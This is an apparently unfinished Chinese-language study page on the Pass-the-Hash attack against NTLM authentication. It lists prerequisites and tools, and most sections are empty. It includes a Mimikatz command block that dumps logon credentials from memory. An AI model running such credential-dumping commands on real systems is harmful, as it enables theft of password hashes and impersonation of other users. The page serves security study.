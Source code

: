 ```yaml
---
description: 基于NTLM认证 / 不需要知道明文密码 / 较旧的系统
---
```


# ✔️ 哈希传递 - Pass The Hash

## 先决条件

* 先要找到与账号相关的密码散列 (NTLM Hash)
*



## 具体实现

### 技术原理

* 利用已知哈希值来进行身份验证，不需要知道账户的明文密码
*



### 实现步骤





## 常用工具

### Mimikatz

```powershell
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords full
```



### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

### Crackmapexec

*

### Metasploit

*





{% hint style="info" %}
哈希传递攻击的本质就是冒充其他用户。
{% endhint %}
